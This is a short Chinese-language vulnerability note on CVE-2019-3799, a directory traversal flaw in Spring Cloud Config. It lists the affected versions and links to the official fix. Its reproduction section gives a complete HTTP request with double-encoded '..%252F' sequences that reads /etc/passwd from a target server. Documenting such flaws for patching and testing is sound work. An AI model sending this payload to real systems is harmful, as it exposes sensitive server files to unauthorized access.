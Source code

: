 # Spring Cloud Config 目录遍历漏洞 CVE-2019-3799

## 漏洞描述

由于 spring-cloud-config-server 模块未对传入路径进行安全限制，攻击者可以利用多个 `..%252f` 进行目录遍历，查看服务器其他路径的敏感文件，造成敏感信息泄露。

## 漏洞影响

```
Spring Cloud Config 2.1.0 to 2.1.1
Spring Cloud Config 2.0.0 to 2.0.3
Spring Cloud Config 1.4.0 to 1.4.5
```

## 漏洞复现

```
GET /foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd HTTP/1.1
Host: your-ip:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

Spring 官方最新版本已经对 Spring Cloud Config 目录遍历漏洞进行了修复，下载地址：https://github.com/spring-cloud/spring-cloud-config/releases